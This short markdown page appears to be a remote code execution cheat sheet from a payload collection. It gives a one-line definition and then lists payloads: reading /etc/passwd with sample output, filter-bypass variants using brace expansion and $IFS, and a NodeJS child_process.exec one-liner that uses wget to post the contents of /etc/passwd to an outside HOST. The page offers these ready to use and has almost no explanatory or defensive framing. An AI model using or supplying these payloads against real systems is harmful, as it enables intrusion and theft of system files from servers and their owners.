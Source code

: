 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Vuln
Normal code execution
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```


Code execution without space
```
{cat,/etc/passwd}
cat$IFS/etc/passwd
```

NodeJS Code execution
```
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

## Thanks to
* 